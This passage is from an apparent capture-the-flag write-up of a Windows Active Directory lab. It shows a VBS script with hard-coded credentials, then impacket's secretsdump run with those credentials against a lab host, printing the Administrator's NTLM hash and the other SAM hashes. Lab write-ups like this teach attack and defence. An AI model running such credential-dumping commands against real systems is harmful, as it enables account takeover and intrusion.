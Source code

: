 # get ResetPassword.vbs
# exit
{% endhighlight %}

We find an interesting file, with some interesting information:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted]
└─# cat ResetPassword.vbs 
Option Explicit

Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain
Dim strUserDN, objUser, strPassword, strUserNTName

' Constants for the NameTranslate object.
Const ADS_NAME_INITTYPE_GC = 3
Const ADS_NAME_TYPE_NT4 = 3
Const ADS_NAME_TYPE_1779 = 1

If (Wscript.Arguments.Count <> 0) Then
    Wscript.Echo "Syntax Error. Correct syntax is:"
    Wscript.Echo "cscript ResetPassword.vbs"
    Wscript.Quit
End If

strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"

' Determine DNS domain name from RootDSE object.
# etc
{% endhighlight %}

What can we do with this? Get some secrets:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vulnroasted/evil-winrm]
└─# python3 /opt/impacket/examples/secretsdump.py VULNNET-RST.LOCAL/a-whitehat:'bNdKVkjv3RR9ht'@10.10.127.110                                                                                        1 ⨯
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# etc
{% endhighlight %}

And with *that*, we can get System:
